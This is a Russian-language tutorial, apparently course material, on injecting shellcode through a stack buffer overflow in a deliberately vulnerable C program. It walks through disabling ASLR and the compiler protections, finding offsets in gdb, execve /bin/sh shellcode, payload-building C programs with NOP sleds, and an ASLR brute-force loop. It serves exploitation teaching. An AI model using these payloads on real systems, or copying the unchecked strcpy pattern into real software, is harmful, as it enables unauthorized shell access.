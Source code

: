 ifdef::env-github[]
:tip-caption: :bulb:
:note-caption: :memo:
:important-caption: :heavy_exclamation_mark:
:caution-caption: :fire:
:warning-caption: :warning:
endif::[]

= Shellcode injection
:source-highlighter: rouge
:rouge-style: github
:icons: font
:sectnums:

== Рассмотрим `vuln.c`

[source, c]
----
#include <stdio.h>
#include <string.h>

void func(char *name) {
        char buf[100];
        strcpy(buf, name);
        printf("Welcome %s\n", buf);
}

int main(int argc, char **argv) {
        func(argv[1]);
        return 0;
}
----

В этом коде есть уязвимость: функция `strcpy` не указывает максимальную длину при копировании.
Это может привести к записи данных за пределы `buf`, причём может быть перезаписан адрес возврата.

== Скомпилируем код

[source, shell]
----
gcc vuln.c -o vuln -fno-stack-protector -m32 -z execstack
----

Флаги:
- `-fno-stack-protector` -- отключить проверки переполнений буфера на стеке (по умолчанию компилятор может добавлять проверки переполнения на стеке);
- `-m32` -- собрать для 32-х битного окружения (делается для удобства, но может потребовать установки дополнительных пакетов, в целом можно обойтись без него, но получим длинные адреса);
- `-z execstack` -- просим линкер собрать исполняемый файл требующий исполняемый стек.

== Отключаем https://en.wikipedia.org/wiki/Address_space_layout_randomization[ASLR]

[source, shell]
----
echo "0" | sudo dd of=/proc/sys/kernel/randomize_va_space
----

== Посмотрим на ассемблерный код vuln

[source, shell]
----
objdump -d vuln
----

Нас интересует строка `11b4:    8d 45 94        lea    -0x6c(%ebp),%eax` (в реальности адреса могут отличатся из-за различий в версиях компиляторов).
`0x6c` это `108`, т.е `buf` начинается за `108` байтов от `ebp`.
Ещё `4` байта отводится под хранение регистра `ebx` (строка `1190:      53     push   %ebx`).
Ещё `4` байта отводится под хранение регистра `ebp` -- указатель предыдущего кадра стека (строка `118d: 55        push   %ebp`).
Следующие `4` байта хранят адрес возврата.

== Рассмотрим `shellcode.s`

[source, asm]
----
xor	%eax, %eax	#Clearing eax register
push	%eax		#Pushing NULL bytes
push	$0x68732f2f	#Pushing //sh
push	$0x6e69622f	#Pushing /bin
movl	%esp, %ebx	#ebx now has address of /bin//sh
push	%eax		#Pushing NULL byte
movl	%esp, %edx	#edx now has address of NULL byte
push	%ebx		#Pushing address of /bin//sh
movl	%esp, %ecx	#ecx now has address of address
			#of /bin//sh byte
movb	$11, %al	#syscall number of execve is 11
int	$0x80		#Make the system call
----

Данный ассемблерный код совершает системный вызов `execve`, запуская `/bin/sh`.

== Скомпилируем код инъекции

[source, shell]
----
gcc shellcode.s -m32 -c
----

== Посмотрим на байты инъекции

[source, shell]
----
objdump -d shellcode.o
----

Отсюда получаем последовательность байтов, содержащую инъекцию:
`\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80`.

== Куда делать инъекцию?

Хотим сделать инъекцию через переполнение `buf`.
Для этого будем передавать длинную строку в первый аргумент `vuln`.
Воспользуемся отладчиком `gdb`, чтобы определить, по какому адресу будет лежать `buf`.
Т.к ASLR выключен, то адрес не будет меняться от запуска к запуску.

== Запустим программу в отладчике

[listing]
----
gdb -q vuln
(gdb) b func
(gdb) r $(python -c 'print("A"*116)')
(gdb) p $ebp - 0x6c
----

[IMPORTANT]
====
В отладчике мы запускали программу, передав ей один аргумент длины 116 байтов.
Так как аргументы программы попадают в конец адресного пространства, то для получения корректного адреса нужно,
чтобы аргументы занимали столько же места, сколько займёт код инъекции.

Попробуйте запустить программу с другим по длине аргументом и получите другой адрес.

[listing]
----
(gdb) r A
(gdb) p $ebp - 0x6c
----
====

В моём случае адрес возврата получился `0xffffd44c`.

[NOTE]
====
В вашем случае адрес возврата может отличаться, поэтому в дальнейших шагах используйте его.
====

== Сформируем аргумент для `vuln`, который позволит запустить `sh`

Сначала будут лежать байты кода, на который хотим выполнить возврат из функции `func`, а в конце -- адрес этого кода.
Аргумент составим следующим образом: сначала идут 87 байтов -- инструкция `NOP`,
далее `\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80` -- сама наша программа,
далее `\x4c\xd4\xff\xff` -- адрес возврата.

Напишем и скомпилируем программу `injection_input.c`, которая будет печатать эти байты.

[source, c]
----
#include <stdio.h>

int main() {
        for (int i = 0; i < 87; ++i) {
                printf("\x90");
        }
        printf("\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80");
        printf("\x4c\xd4\xff\xff");
        return 0;
}
----

Скомпилируем её.

[source, shell]
----
gcc injection_input.c
----

== Запустим `vuln` передав ей сформированный вход

[source, shell]
----
./vuln $(./a.out)
----

И видим, что запустился `sh`.

[listing]
----
Welcome 1Ph//shh/binPS
                      L
sh-5.1$
----

== Включим ASLR обратно

[source, shell]
----
echo "2" | sudo dd of=/proc/sys/kernel/randomize_va_space
----

== Теперь попробуем произвести инъекцию с включённым ASLR

Напишем и скомпилируем  программу `injection_code_aslr.c`, формирующую инъекцию.

[source, c]
----
#include <stdio.h>

int main() {
        for (int i = 0; i < 100000; ++i) {
                printf("\x90");
        }
        printf("\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80");
        return 0;
}
----

[NOTE]
====
Заметим, что теперь инструкций `NOP` не `87`, а `100000`.
====

[source, c]
----
gcc injection_code_aslr.c
----

Запишем код нашей программы в переменную окружения `SHELLCODE`.

[source, shell]
----
export SHELLCODE=$(./a.out)
----

Напишем и скомпилируем программу `injection_input_aslr.c` формирующую вход для `vuln`.

[source, c]
----
#include <stdio.h>

int main() {
        for (int i = 0; i < 112; ++i) {
                printf("A");
        }
        printf("\x11\x11\xff\xff");
        return 0;
}
----

[source, c]
----
gcc injection_input_aslr.c
----

== Запустим `vuln` передав ей сформированный вход

[source, shell]
----
./vuln $(./a.out)
----

Повторяйте, пока не запустится `sh` (например, используя такой скрипт: `run=0; while ! ./vuln $(./a.out); do ((run+=1)); done; echo $run`).

== Ссылки для самостоятельного изучения

* https://dhavalkapil.com/blogs/Shellcode-Injection/[Оригинальная статья], по которой подготавливалось занятие.
* https://dhavalkapil.com/blogs/Buffer-Overflow-Exploit/[Статья про атаку буфера]. Она попроще, но там разбираются многие вещи, которые разбирали на занятии.
* https://habr.com/ru/companies/pt/articles/349544/[Классная статья про обход ASLR].
